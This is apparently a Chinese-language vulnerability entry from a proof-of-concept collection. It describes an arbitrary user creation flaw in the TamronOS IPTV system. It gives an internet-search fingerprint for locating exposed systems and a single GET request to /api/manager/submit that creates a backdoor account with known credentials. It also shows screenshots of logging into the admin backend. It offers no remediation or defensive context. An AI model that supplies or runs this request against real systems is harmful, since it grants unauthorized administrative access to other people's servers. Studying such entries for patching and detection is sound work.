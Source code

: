 # TamronOS IPTV系统 submit 任意用户创建漏洞

## 漏洞描述

TamronOS IPTV系统 /api/manager/submit 存在任意用户创建漏洞，攻击者通过漏洞可以任意用户创建进入后台

## 漏洞影响

```
TamronOS IPTV系统
```

## 网络测绘

```
app="TamronOS-IPTV系统"
```

## 漏洞复现

登录页面如下



![](./images/202202101926166.png)



漏洞POC为



```plain
/api/manager/submit?group=1&username=test&password=123456
```



![](./images/202202101926524.png)



```plain
user: test
pass: 123456
```



![](./images/202202101926288.png)